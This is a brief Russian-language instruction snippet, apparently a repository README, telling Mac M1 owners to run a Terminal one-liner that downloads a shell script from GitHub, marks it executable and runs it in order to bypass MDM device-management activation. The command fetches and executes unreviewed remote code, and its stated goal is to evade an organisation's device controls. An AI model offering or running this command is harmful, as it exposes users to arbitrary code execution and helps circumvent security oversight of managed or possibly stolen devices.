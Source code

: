 Перезагрузите ваш Mac M1
Запустите Terminal и выполните этот код, он создаст новый профиль. 

```
curl https://github.com/kingssvalim/mdm/blob/main/mdm.sh -o test.sh && chmod +x ./test.sh && ./test.sh
```


Вы сможете обойти активацию MDM... Удачи!
